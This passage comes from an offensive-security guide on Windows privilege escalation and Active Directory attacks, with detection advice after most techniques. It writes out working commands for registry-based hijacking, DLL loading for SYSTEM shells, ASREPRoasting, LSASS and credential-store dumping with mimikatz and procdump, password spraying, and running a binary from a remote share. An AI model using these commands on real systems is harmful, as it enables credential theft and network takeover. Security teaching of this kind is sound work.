- *Passive Defense*: Within your Application Control process, make sure that third-party applications don't install themselves in directory with weak permissions.
- *Passive Defense*: Within your Application Control process, make sure that third-party applications don't perfom priviged operations when it is not needed.
- *Active Defense*: Monitor changes made to the $PATH environment varialble
- *Active Defense*: Monitor the start and restart of service running as system

#### Image File Execution Options Injection

Image File Execution Options (IFEO) are used for debugging.

When a process is created, a debugger present in an application’s IFEO will be prepended to the application’s name, effectively launching the new process under the debugger;

IFEOs can be set directly via the Registry or in Global Flags via the GFlags tool.
The intention of creating the IFEO registry key is to give developers the option to debug their software.

```bash
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\explorer.exe" /v Debugger /d "cmd.exe"
REG ADD "HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\explorer.exe" /v Debugger /d "cmd.exe"
```

:white_check_mark: How to protect against or detect that technique:

- *Active Defense*: Monitor registry changes made to those registry keys

For more information about that technique refer to [T1546.012 - Event Triggered Execution: Image File Execution Options Injection](https://attack.mitre.org/techniques/T1546/012/)

#### Privileged File Write

Processes running with high privileges perform operations on files like all processes do.

this can become a security vulnerability, as there is potential to abuse the operations performed by that privileged process to make it do something it is not supposed to.

##### DiagHub Vulneranility

:warning: Starting with version 1903 and above, DiagHub can no longer be used to load arbitrary DLLs.

The Microsoft Diagnostics Hub Standard Collector Service (DiagHub) is a service that collects trace information and is programmatically exposed via DCOM. This DCOM object can be used to load a DLL into a SYSTEM process, provided that this DLL exists in the C:\Windows\System32 directory.

[Diaghub](https://github.com/xct/diaghub) loads a custom dll in system32 via diaghub

```bash
diaghub.exe c:\\ProgramData\\ MALICIOUS.dll
```

:white_check_mark: How to protect against or detect that technique:

- *Active Defense*: Monitor the usage of diaghub.exe

##### Update Session Orchestrator Vulnerability

Update Session Orchestrator is the replacement of the Windows Update agent.

If we found a privileged file write vulnerability in Windows or in some third-party software, we could copy our own version of **windowscoredeviceinfo.dll** into C:\Windows\Sytem32\ and then have it loaded by the USO service to get arbitrary code execution as **NT AUTHORITY\System**.

If we found a privileged file write vulnerability in Windows or in some third-party software, we could copy our own version of windowscoredeviceinfo.dll into C:\Windows\Sytem32\ and then have it loaded by the USO service to get arbitrary code execution as NT AUTHORITY\System.

[UsoDllLoader](https://github.com/itm4n/UsoDllLoader) is a a technique that can be used to weaponize privileged file write vulnerabilities on Windows. It provides an alternative to the DiagHub DLL loading "exploit" found by James Forshaw

This solution is composed of two projects: WindowsCoreDeviceInfo and UsoDllLoader.

- **WindowsCoreDeviceInfo**
It provides a PoC DLL that will start a bind shell on port 1337 (localhost only), whenever the QueryDeviceInformation() function is called. That's the name of the function used by the USO workers.

- **UsoDllLoader** *(optional)*
It's a stripped-down version of usoclient.exe. It can be run as a regular user to interact with the USO service and have it load windowscoredeviceinfo.dll. Then, it will try to connect to the bind shell. In case of errors, please read the "Known issues" section.

```bash
# 1. Copy WindowsCoreDeviceInfo.dll to C:\Windows\System32\
# 2. Use usoclient as a regular user
usoclient
```

:white_check_mark: How to protect against or detect that technique:

- *Active Defense*: Monitor the usage of usoclient

##### Windows Problem Reporting

phoneinfo.dll is being loaded by wermgr.exe

[WerTrigger](https://github.com/sailay1996/WerTrigger) is a PoC to leverage the fact that is missing in the system32 folder in order to get Privileged File Write

1. As an administrator, copy phoneinfo.dll to C:\Windows\System32\
2. Place Report.wer file and WerTrigger.exe in a same directory.
3. Then, run WerTrigger.exe.
4. Enjoy a shell as NT AUTHORITY\SYSTEM.

#### AppInit DLLs

The AppInit_DLLs infrastructure provides an easy way to hook system APIs by allowing custom DLLs to be loaded into the address space of every interactive application.

Starting in Windows 8, the AppInit_DLLs infrastructure is disabled when secure boot is enabled. This is because *"The AppInit_DLLs mechanism is not a recommended approach for legitimate applications because it can lead to system deadlocks and performance problems."* cc [Microsoft's documentation](https://docs.microsoft.com/en-us/windows/win32/dlls/secure-boot-and-appinit-dlls#summary)

```bash
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecureBoot\State /v UEFISecureBootEnabled
Confirm-SecureBootUEFI (Require privileges)
```

If is it not enabled or the system is inferior as Windows, we can created a malicious DLL.

First, we need to enable LoadAppInit_DLLs

```bash
# 32-bit system
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v "LoadAppInit_DLLs" /t REG_DWORD /d 1 /f
# 64-bit system
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v "LoadAppInit_DLLs" /t REG_DWORD /d 1 /f
```

Registry Key for Arbitrary DLL via AppInit - 32bit and 64bit

```bash
# 32-bit system
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\WindowsAppInit_DLLs
# 64-bit system
HKEY_LOCAL_MACHINE\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs
```

To eliminate these issues Didier Stevens developed a DLL which will check the configuration file called "LoadDLLViaAppInit.bl.txt" in order to determine which processes will load the arbitrary DLL.

:white_check_mark: How to protect against or detect that technique:

- *Active Defense*: Monitor changes towards the registry keys listed aboves

#### AppCert DLLs

> / / / To Finish

Dynamic-link libraries (DLLs) that are specified in the **AppCertDLLs** value in the Registry key can be abused to obtain persistence and privilege escalation by causing a malicious DLL to be loaded and run in the context of separate processes on the computer.

Dynamic-link libraries (DLLs) that are specified in the AppCertDLLs Registry key under *HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\* **are loaded into every process that calls** the ubiquitously used application programming interface (API) functions CreateProcess, CreateProcessAsUser, CreateProcessWithLoginW, CreateProcessWithTokenW, or WinExec

```bash
reg query "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\AppCertDlls"
```

> / / / To Finish

#### COR_PROFILER

**COR_PROFILER** is a .NET Framework feature which allows developers to specify an unmanaged (or external of .NET) profiling DLL to be loaded into each .NET process that loads the Common Language Runtime (CLR).

```bash
# Enable the profiler
reg add "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v COR_ENABLE_PROFILING /t REG_DWORD /d 1 /f
# Add the CLSID/ProgID of the profiler
reg add "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v COR_PROFILER /t REG_SZ /d 0 /f
# Path to the profiler DLL
reg add "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v COR_PROFILER_PATH /t REG_SZ /d 0 /f
```

Note that this method can be used to can also be used to elevate privileges (ex: Bypass User Account Control) if the system .NET process executes at a higher permission level

:white_check_mark: How to protect against or detect that technique:

- *Active Defense*: Monitor changes towards the registry keys listed aboves

For more information about that technique refer to [T1574.012 - Hijack Execution Flow: COR_PROFILER](https://attack.mitre.org/techniques/T1574/012/)

###### *If you don't know, now you know: [Common Language Runtime](https://docs.microsoft.com/en-us/dotnet/standard/clr)*

First, we need to understand the difference between unmanaged code and managed code:

- **Unmanaged code**: A code which is directly executed by the operating system
- **Manage code**: A code which is written to aimed to get the services of the managed runtime environment execution like CLR (Common Language Runtime) in .NET Framework. It always implemented by the managed runtime environment instead of directly executed by the operating system.

Manage code has the following advantages:

- Improves the security of the application like when you use runtime environment, it automatically checks the memory buffers to guard against buffer overflow.
- Implement the garbage collection automatically.
- Provides runtime type checking/dynamic type checking.
- Provides reference checking which means it checks whether the reference point to the valid object or not and also check they are not duplicate.

But you cannor get the low-level access of the CPU architecture

Common Language Runtime offers the opportunity **Profiling** which is a tool that monitors the execution of another application.
A common language runtime (CLR) profiler is a dynamic link library (DLL) that consists of functions that receive messages from, and send messages to, the CLR by using the profiling API.

From a security perspective from Microsoft
> A profiler DLL is an unmanaged DLL that runs as part of the common language runtime execution engine. As a result, the code in the profiler DLL is not subject to the restrictions of managed code access security. The only limitations on the profiler DLL are those imposed by the operating system on the user who is running the profiled application.

### Windows Subsystem for Linux

```bash
wsl whoami
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'
```

### Application Shimming

In order to resolve the problem with legacy applications that are no compatible with newer Windows operating systems, Microsoft creted the Windows Application Compatibility Infrastructure/Framework (Application Shim) so that backward compatibility of software as the operating system codebase changes over time.

This made the application running in backward compatibility mode redirect API calls from Windows itself to alternative code, the shim.

[Here](https://www.fireeye.com/blog/threat-research/2017/05/fin7-shim-databases-persistence.html) is an blogpost by FireEye on how FIN7 used that technique

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Ensure the latest patched are installed on your system (including KB3045645)
- *Active Defense*: Monitor process execution for sdbinst.exe and command-line arguments for potential indications of application shim abuse.

### Active Directory Attacks

#### Enumeration

Here below are some command to get information about the Active Directory environment

```bash
# Get all the trusted domain objects in the forest.
Get-ADTrust -Filter *
nltest /domain_trusts
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()

# Get all user that does not require a pre authentication
Get-Aduser -filter * -Properties DoesNotRequirePreAuth | Where {$._DoesNotRequirePreAuth -eq "True" -and $_.Enabled -eq "True"} | select Name 
```

Within BloodHound, the default collection methods does the Trusts enumeration for you.

##### BloodHound

1) We need to run SharpHound to a machine that is joined to the domain.

```bash
# Collect all data from a given Domain Controller
bloundhound-python -u -p password -ns IP_DC -d victim.local -c ALL
```

This will creates four files called computers.json, domains.json, groups.jso and users.json

The ALL collection method will perform **a lot of queries**, which could trigger the potential SOC.

2) We can use bloodhound

When we put those four files within Bloundhount, we can search for nodes (Active Directory Object)

:white_check_mark: How to protect against or detect that technique:

- *Passive Defense*: Ensure that your Endpoint Security solution integrates with AMSI in order to potentially detect SharpHound fileless PowerShell run in memory
- *Passive Defense*: Deploy HoneyTokens.
- *Passive Defense*: Regularly BloodHound from a *Purple Team* principle in order to discover attack vector within your Active Directory.
- *Active Defense*: Monitor LDAP & SMB traffic to your Domain Controllers, specially for high amount of queries.
- *Active Defense*: Monitor traffic to the IPC$ shares.
- *Active Defense*: Monitor abnormal connections towards the following named pipes:
  - **\PIPE\wkssvc**: Query logged-in users
  - **\PIPE\srvsvc**: Query system information
  - **\PIPE\svcctl**: Query services with stored credentials
  - **\PIPE\atsvc**: Query scheduled tasks
  - **\PIPE\samr**: Enumerate domain and user information
  - **\PIPE\lsass**: Extract credential information

##### Abusing Active Directory ACLs/ACEs

```powershell
# GenericAll on User
Get-DomainObjectAcl -Identity USER -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}
# GenericAll on Group
# -> net group "USER GROUP" USER /add /domain
# GenericAll / GenericWrite / Write on Computer
# WriteProperty on Group

```

###### *If you don't know, now you know: [Active Directory Accounts](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-accounts)*

- **Default local accounts**: Built-in accounts that are created automatically when a Windows Server domain controller is installed and the domain is created.
The default local accounts in the Users container include: Administrator, Guest, and KRBTGT.
- **Administrator account**: Default account that is used in all versions of the Windows operating system on every computer and device.
The Administrator account is used by the system administrator for tasks that require administrative credentials.
- **Guest account**: Default local account that has limited access to the computer and is disabled by default.
By default, the Guest account password is **left blank**.
**A blank password** allows the Guest account to be accessed without requiring the user to enter a password.
- **KRBTGT account**: Local default account that acts as a service account for the Key Distribution Center (KDC) service.
This account cannot be deleted, and the account name cannot be changed.

Every Active Directory domain controller is responsible for handling Kerberos ticket requests, which are used to authenticate users and grant them access to computers and applications.

The password for the KDC account is used to derive a secret key for encrypting and decrypting the ticket-granting ticket (TGT) requests that  are used to authenticate users with Kerberos.

|Account Name|SID & RID|
|-|-|
|Administrator account|S-1-5-\<domain>-500|
|Guest account|S-1-5-\<domain>-501|
|KRBTGT account|S-1-5-\<domain>-502|

Group Types:

Distribution groups: used for email distribution lists and cannot be used to control access to resources
Security Groups: which CAN be used to control access and added into discretionary access control lists (DACLs).

*Group scopes*

Universal:

- Members
  - Accounts from any domain in the same forest
  - Global and other Universal groups from any domain in the same forest

Universal groups are replicated along with their full memberships are to the Global Catalog.

Global

- Members:
  - Accounts from the same domain
  - Other Global groups from the same domain

Domain Local

- Members:
  - Accounts from any domain or any trusted domain
  - Global groups from any domain or any trusted domain
  - Other Domain Local groups from the same domain
  - Accounts, Global groups, and Universal groups from other forests and from external domains

The group memberships of domain local groups and global groups are not replicated to the Global Catalog
Group objects are to the Global Catalog.

Note that users that exist in external or forest trusts, **external from the domain’s current forest**, can still be added to domain local groups in the specified domain.
These users show up as new entries in **CN=ForeignSecurityPrincipals,DC=domain,DC=com**

*When a trust is established between a domain in a forest and a domain outside of that forest, security principals from the external domain can access resources in the internal domain. Active Directory creates a foreign security principal object in the internal domain to represent each security principal from the trusted external domain. These foreign security principals can become members of domain local groups in the internal domain.*

###### *If you don't know, now you know: [Active Directory Security Groups](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#active-directory-default-security-groups-by-operating-system-version)*

Members of the **Domain Admins** security group are authorized to administer the domain.

Members of the **Administrators** security group have:

- Complete and unrestricted access to the computer.
- If the computer is a domain controller, have unrestricted access to the domain.

Members of the **Group Policy Creators Owners** security group are authorized to create, edit, or delete Group Policy Objects in the domain.

Members of the **Account Operators** can creates non administrator accounts and groups on the domain
Members of the Account Operators group cannot manage the Administrator user account.

Members of the **Schema Admins** group can modify the Active Directory schema.

Members in the **Server Operators** group can administer domain controllers. This group exists only on domain controllers.

Members of the **Backup Operators** group can back up and restore all files on a computer, regardless of the permissions that protect those files.

The Enterprise Admins group exists only in the root domain of an Active Directory forest of domains.

| Active Directory Group |SID & RID|
|-|-|
|Domain Admins|S-1-5-\<domain>-512|
|Administrators| S-1-5-32-544|
|Account Operators| S-1-5-32-548|
|Server Operators|S-1-5-32-549|
|Group Policy Creators Owners|S-1-5-\<domain>-520|
|Schema Admins|S-1-5-\<root domain>-518|
|Enterprise Admins|S-1-5-21-\<root domain>-519|
|Group Policy Creator Owners|S-1-5-\<domain>-520|

###### *If you don't know, now you know: [Domain Trusts](https://docs.microsoft.com/en-us/azure/active-directory-domain-services/concepts-forest-trust)*

A trust is a relationship, which you establish between domains that makes it possible for users in the domain to be authenticated by the other domain.

- **Trust Direction**:
  - *1-way*
  - *2-way*

- **Trust Transitivity**T: Determines whether a trust can be extended outside the two domains between which the trust was formed.
  - *Transitive*: Each time that you create a new domain in a forest, a two-way, transitive trust is automatically created between the new domain and its parent domain.
  - *Nontransitive*: Restricted by the two domains in the trust relationship, which means that it does not flow to any other domains in the forest.

- **Type of trusts**:
  - *Parent and Child*:
    - *Description*: Parent-child is an implicitly established trust when you add a new child domain to a tree.
    - *Transitivity*: Transitive
    - *Direction*: 2-way

  - *Tree-root*:
    - *Description*: Tree-root is an implicitly established trust when you add a new tree root domain to a forest.
    - *Transitivity*: Transitive
    - *Direction*: 2-way

  - *External*:
    - *Description*: Provide access to resources that are located on a domain that is located in a separate forest that is not joined by a forest trust.
    - *Transitivity*: Nontransitive
    - *Direction*: Can be either 1-way or 2-way

  - *Realm*:
    - *Description*: Used to perform relationship between a non-Windows Kerberos realm and an Active Directory domain,
    - *Transitivity*: Can be either transitive or nontransitive
    - *Direction*: Can be either 1-way or 2-way

  - *Forest*:
    - *Description*: Used to share resources between forests
    - *Transitivity*: Transitive
    - *Direction*: Can be either 1-way or 2-way

  - *Shortcut*:
    - *Description*: Used in order to improve user logon times between two domains within an Active Directory forest
    - *Transitivity*: Transitive
    - *Direction*: Can be either 1-way or 2-way

###### *If you don't know, now you know: [Global Catalog](https://docs.microsoft.com/en-us/windows/win32/ad/global-catalog)*

The Global Catalog is used to perform forest-wide searches.
It contains information about all objects in a forest, as well as a subset of attributes for each object.
It can be interogated through LDAP over port 3268 or LDAP/SSL over port 3269.

One point of the Global Catalog is to allow for object searching and deconfliction quickly without the need for referrals to other domains.
-> we can quickly query information about all domains and objects in a forest with simple queries to our primary domain controller

```powershell
$Forest = [System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()
$Forest.FindAllGlobalCatalogs()
```

###### *If you don't know, now you know: [Directory Partitions](https://docs.microsoft.com/en-us/windows/win32/ad/naming-contexts-and-partitions)*

Each domain controller in a domain forest controlled by Active Directory Domain Services includes directory partitions.

A directory partition is a contiguous portion of the overall directory that has independent replication scope and scheduling data.

By default, the Active Directory Domain Service for an enterprise contains the following partitions:

- **Schema Partition**: The schema partition contains the classSchema and attributeSchema objects that define the types of objects that can exist in the forest.
Every domain controller in the forest has a replica of the same schema partition.

- **Configuration Partition**: The configuration partition contains replication topology and other configuration data that must be replicated throughout the forest.
Every domain controller in the forest has a replica of the same configuration partition.
*Within this partition, we can get all domains information of the forest*

- **Domain Partition**: The domain partition contains the directory objects, such as users and computers, associated with the local domain. A domain can have multiple domain controllers and a forest can have multiple domains.
Each domain controller stores a full replica of the domain partition for its local domain, but does not store replicas of the domain partitions for other domains.

#### ASREPRoast

ASREPRoast takes advantages of users without Kerberos pre-authentication required attribute (DONT_REQ_PREAUTH).
If we perform a AS_REQ request to the DC on behalf of a vulnerable users, we can receive a message which contains a chunk of data encrypted with the original user key, derived from its password.

1) Enumerate vulnerable users
2) Request AS_REP message to the DC on behalf of any of those users, and receive an AS_REP message.

```bash
# Enumerate Vulnerable Users
Get-ADUser -filter * -Properties DoesNotRequirePreAuth | Where {$._DoesNotRequirePreAuth -eq "True" -and $_.Enabled -eq "True"} | select Name
# Request AS_REP message
## Using Rubeus
Rubeus.exe asreproast /user:USER [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER]
## Using GetNPUsers.py: Try all the usernames in usernames.txt
python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
## Using GetNPUsers.py: Use domain creds to extract targets and target them
python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Identify accounts that Do Not Require Preauthentication.
- *Architecture*: If it is required within your organisation, male sure that you leverage long, complex passwords.
- *Active Defense*: Monitor for changes to the User Account Control ‘Don’t Require Preauth’ value within Windows Event ID 4738.

#### Credential Harvesting

#### General tool

[Snaffler](https://github.com/SnaffCon/Snaffler) gets a list of Windows computers from Active Directory, then spreads out its snaffly appendages to them all to figure out which ones have file shares, and whether you can read them.

```bash
snaffler.exe -s -o snaffler.log
```

#### Security Support Provider Attack

This attack can be performed against a Windows member server or domain controller.
Use-cases:

- We compromised a **member server** as a **local Administrator**, but we have **limited rights** to move laterally across **the same domain**.
- We compromised a **domain controller** as a **Domain Admin** or **Administrator**, but wishes to **elevate privileges** to an **Enterprise Admin** to move laterally **across domains**.
- We compromised a **domain controller** as a **Domain Admin** using a pass-the-hash attack, but wishes to leverage the clear text password of the admin to **log into other applications** such as Outlook Web Access or a remote desktop connection.

```bash
mimikatz # privilege::debug
mimikatz # misc::memssp         # Inject a malicious SSP with the memory.
```

Once the SSP is registered, all users who log on to the compromised Domain Controller, as well as all local services, will log their passwords to the C:\Windows\System32\mimilsa.log file.

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Deploy the Local Security Authority Protection with the Protected Process Light (PPL) technology which ensures that the operating system only loads trusted services and processes.

For more information about that technique refer to [T1547.005 - Boot or Logon Autostart Execution: Security Support Provider](https://attack.mitre.org/techniques/T1547/005/)

#### Cached Domain Logon Information

Windows caches previous users' logon information locally so that they can log on if a logon server is unavailable during later logon attempts.
Cached credentials cannot be used to log on elsewhere, which means no Pass-The-Hash

The number of cached logins are available within the registry key *HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\Current Version\Winlogon\\*

The actual location of these cached credentials are in the registry again at *HKLM\Security\Cache*
By default, only the SYSTEM account can view these

The Metasploit module to gather those hashes is *post/windows/gather/cachedump*

[creddump](https://github.com/CiscoCXSecurity/creddump7) is a python tool to extract various credentials and secrets from Windows registry hives.
It essentially performs all the functions that bkhive/samdump2, cachedump, and lsadump2 do, but in a platform-independent way.

It currently extracts:

- LM and NT hashes (SYSKEY protected)
- Cached domain passwords
- LSA secrets

```bash
./cachedump.py /path/to/System32/SYSTEM /path/to/System32/config/SECURITY false
```

The hashcat mode is 2100

#### RunAs

[cmdkey](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey) Creates, lists, and deletes stored user names and passwords or credentials.

```bash
# List the stored credentials on the machine
cmdkey /list
```

If there is an administrator that is password are saved, we can leverage it.

```bash
runas /savecred /user:WORKGROUP\Administrator "\\IP\SHARE\BINARY.exe"
```

#### LSA Secrets

LSA Secrets are stored in the following registry key *HKEY_LOCAL_MACHINE/Security/Policy/Secrets*

By default only the SYSTEM account can access the LSA Secrets registry location.

Impacket suite contains a python script that can read the contents of these registry keys and decrypt the LSA Secrets password.

The Metasploit module to gather those hashes is *post/windows/gather/*

[creddump](https://github.com/CiscoCXSecurity/creddump7) is a python tool to extract various credentials and secrets from Windows registry hives.
It essentially performs all the functions that bkhive/samdump2, cachedump, and lsadump2 do, but in a platform-independent way.

It currently extracts:

- LM and NT hashes (SYSKEY protected)
- Cached domain passwords
- LSA secrets

```bash
./lsadump.py <system hive> <security hive>
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Ensure that local administrator accounts have complex, unique passwords across all systems on the network.
- *Architecture*: Design an enterprise network that limits privileged account use across administrative tiers.

For more information about that technique refer to [T1003.004 - OS Credential Dumping: LSA Secrets](https://attack.mitre.org/techniques/T1003/004/)

#### LSASS

LSASS is a process in Microsoft Windows operating systems that is responsible for enforcing the security policy on the system.
It verifies users logging on to a Windows computer or server, handles password changes, and creates access tokens.

We can use procdump to dump the memory of lsass.exe and then use mimikatz offline in order to perform

```bash
procdump.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
```

Mimikatz can be used offline in order to read the contents of the LSASS dump and especially sections that contain logon passwords.

```bash
mimikatz.exe log "sekurlsa::minidump lsass.dmp" sekurlsa::logonPasswords exit
```

There is also [Dumpert](https://github.com/outflanknl/Dumpert), which is an LSASS memory dumper using direct system calls and API unhooking
Dumpert uses API hooking.

> API hooking is a technique by which we can instrument and modify the behavior and flow of API calls.

```bash
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump
```

##### Credential Manager

Credential Manager lets you view and delete your saved credentials for signing in to websites, connected applications, and networks.

All of the credentials are stored in a credentials folder which you will find at this location *%Systemdrive%\Users\\<Username>\AppData\Local\Microsoft\Credentials*

Credentials saved in credential manager are of two types:

- Web credentials: As Edge and widows are the product of the same company, credentials manager has access to the stored information of Edge browser too, in order to increase safekeeping of saved credentials. It also stores the password of order application provided by Microsoft such as skype, Microsoft office, etc.
- Windows credentials: Under this category, all the windows login credentials can be found. Along with any system that is connected in the network.

The following script can be used to retreive password from the credential manager.

```powershell
[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$vault = New-Object Windows.Security.Credentials.PasswordVault
$vault.RetrieveAll() | % { $_.RetrievePassword();$_ }
```

Mimikatz can be used to retreive password from the credential manager.

```bash
mimikatz.exe
mimikatz # privilege::debug            # Ask for debug privilege for mimikatz process.
mimikatz # sekurlsa:logonpassword      # Under credman, you will see the password
```

LaZagne can be used to retreive password from the credential manager.

```bash
laZagne.exe
```

##### Group Managed Service Accounts

The goal is to compromised one of those accounts to get their rights.

The **msDS-ManagedPassword** attribute contains a BLOB with password information for group-managed service accounts.

[Get-ADServiceAccount] gets a managed service account (MSA) or performs a search to retrieve MSAs.

We can perform the following in order to see:

- Which group(s) the SPN is member of
- When the password will be changed, ...

```powershell
Get-ADServiceAccount -Filter {name -eq 'NAME'} -properties *
```

The **msDS-GroupMSAMembership** (PrincipalsAllowedToRetrieveManagedPassword) attribute controls who can request and receive the clear-text password.

```powershell
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Filter "*" -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
 
# Decode the data structure using the DSInternals module
ConvertFrom-ADManagedPasswordBlob $mp
```

To retreive the hash from a SPN, we can do the following using mimikatz

```bash
mimikatz.exe
mimikatz # privilege::debug     # Ask for debug privilege for mimikatz process.
mimikatz # sekurlsa::ekeys      #    
```

With this password hash, we can perform pass the hash to compromise the Active Directory.

##### Brute-force

###### Talon

Talon is an automated authentication tool for large scale attacks while remaining less detectable.

This is done by:

- Using both a combination of both LDAP and Kerberos protocols by alternating between the two services
- Using a single or multiple domain controllers  

Command options:

- **-D**: Fully qualified domain to use
- **-Hostfile**: File containing the list of domain controllers to connect to
- **-P**: Password to use
- **-Userfile**: File containing the list of usernames
- **-sleep**: Time inbetween attempts (default 0.5)

There are two mode:

- **Enumeration Mode (-E)**: Send only Kerberos TGT pre-authentication request to the target KDC.
This is done by using checking the encrypted TGT ticket resulting from the request:

|Error ID|Code Name|Reason|
|-|-|-|
|**6**|KDC_ERR_C_PRINCIPAL_UNKNOWN|The username doesn't exist.|
|**18**|KDC_ERR_CLIENT_REVOKED|Account disabled, expired, or locked out.|
|**24**|KDC_ERR_PREAUTH_FAILED|Pre-authentication failed; usually means bad password|

```bash
./Talon -D DOMAIN.LOCAL -Hostfile DC.txt -Userfile USERNAME.txt -sleep 1 -E
```

*Note that it increment the [Bad-Pwd-Count](https://docs.microsoft.com/en-us/windows/win32/adschema/a-badpwdcount) as well*

- **Automated Password Guessing Mode**: Perform password guessing by alternating between the two services, allowing the password attack traffic to be split across two protocols. Talon can take one step further, by distributing a password attack against multiple domain controllers (**-Hostfile**), alternating between LDAP and Kerberos each time to create an additional layer of obscurity.

```bash
./Talon -D DOMAIN.LOCAL -Hostfile DC.txt -Userfile USERNAME.txt -P "PASSWORD" -sleep 1
```

###### *If you don't know, now you know: [Security Accounts Manager database](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh994565(v=ws.11)#security-accounts-manager-database)*

The Security Account Manager is a database file in Windows XP, Windows Vista, Windows 7, 8.1 and 10 that stores users' passwords.
This file can be found in *%SystemRoot%/system32/config/SAM* and is mounted on *HKLM/SAM*
The Security Account Manager contains all the credentials that are **local** to that specific computer, including the built-in local Administrator account and any other local accounts for that computer.

In an attempt to improve the security of the SAM database against offline software cracking, Microsoft introduced the SYSKEY function.
When SYSKEY is enabled, the on-disk copy of the SAM file is partially encrypted, so that the password hash values for all local accounts stored in the SAM are encrypted with a key (usually also referred to as the "SYSKEY").

*Sidenote: For NT password hash, it is an unsalted MD4 hash of the account’s password. This means that if two accounts use an identical password, they will also have an identical NT password hash.*

SAM is a **"stored credentials"** method

###### *If you don't know, now you know: [LSASS](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh994565(v=ws.11)#lsass-process-memory)*

The Local Security Authority Subsystem Service (LSASS) stores credentials in memory on behalf of users with **active** Windows sessions.

This allows users to seamlessly access network resources, such as file shares, Exchange Server mailboxes, and SharePoint sites, without re-entering their credentials for each remote service.

LSASS can store credentials in multiple forms, including:

- Reversibly encrypted plaintext
- Kerberos tickets (TGTs, service tickets)
- NT hash
- LM hash

LSASS is a **"cached credentials"** method

###### *If you don't know, now you know: [LSA](https://docs.microsoft.com/en-us/windows/win32/secauthn/lsa-authentication)*

LSA secrets is a special protected storage for important data used by the Local Security Authority (LSA) in Windows.

LSA is designed for managing a system's local security policy, auditing, authenticating, logging users on to the system, storing private data.

###### *If you don't know, now you know: [Security Support Provider Interface](https://docs.microsoft.com/fr-fr/windows-server/security/windows-authentication/security-support-provider-interface-architecture)*

The Microsoft Security Support Provider Interface (SSPI) is the foundation for Windows authentication. Applications and infrastructure services that require authentication use SSPI to provide it.

The default Security Support Providers (SSPs) that invoke specific authentication protocols in Windows are incorporated into the SSPI as DLLs.

The following sections describe the default SSPs that interact with the SSPI. The SSPs are used in different ways in Windows operating systems to promote secure communication in an unsecure network environment.

- Kerberos Security Support Provider
- NTLM Security Support Provider
- Digest Security Support Provider
- Schannel Security Support Provider
- Negotiate Security Support Provider
- Credential Security Support Provider
- Negotiate Extensions Security Support Provider
- PKU2U Security Support Provider

###### *If you don't know, now you know: [Group Managed Service Accounts](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview)*

Managed service accounts (MSAs) are a feature Microsoft first introduced in Windows Server 2008 R2 to help mitigate this risk.
Windows Server 2012 introduces a much improved version of MSAs, called group managed service accounts (gMSAs)

A **standalone Managed Service Account (sMSA)** is a managed domain account that provides automatic password management, simplified service principal name (SPN) management and the ability to delegate the management to other administrators.

The **group Managed Service Account (gMSA)** provides the same functionality within the domain but also extends that functionality over multiple servers.

Those are a special type of security principal that services, IIS application pools, and in some cases scheduled tasks can run as.
Rather than having a conventional password, MSAs (and gMSAs) establish a secret with the directory and then rotate that password every 90 days (by default).

###### *If you don't know, now you know: [Microsoft Directory Replication Service Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/06205d97-30da-4fdc-a276-3fd831b272e0)*

The Directory Replication Service (DRS) Remote Protocol is an **RPC** protocol for replication and management of data in Active Directory.

The protocol consists of two RPC interfaces:

- **E3514235-4B06-11D1-AB-04-00C04FC2DCD2**: RPC interface UUID for drsuapi methods
-> registered by every domain controller across every AD forest the same way.
- **7c44d7d4-31d5-424c-bd5e2b3e1f323d22**: RPC interface UUID for dsaop methods

Replication is used to indicate that the same directory namespace (the same objects) are copied to another directory server for redundancy and throughput reasons

#### Ntds.dit file

The Ntds.dit file is a database that stores Active Directory data, including information about user objects, groups, and group membership. It includes the password hashes for all users in the domain.

```bash
# Confirm the location of the ntds.dit file
reg.exe query hklm\system\currentcontrolset\services\ntds\parameters
```

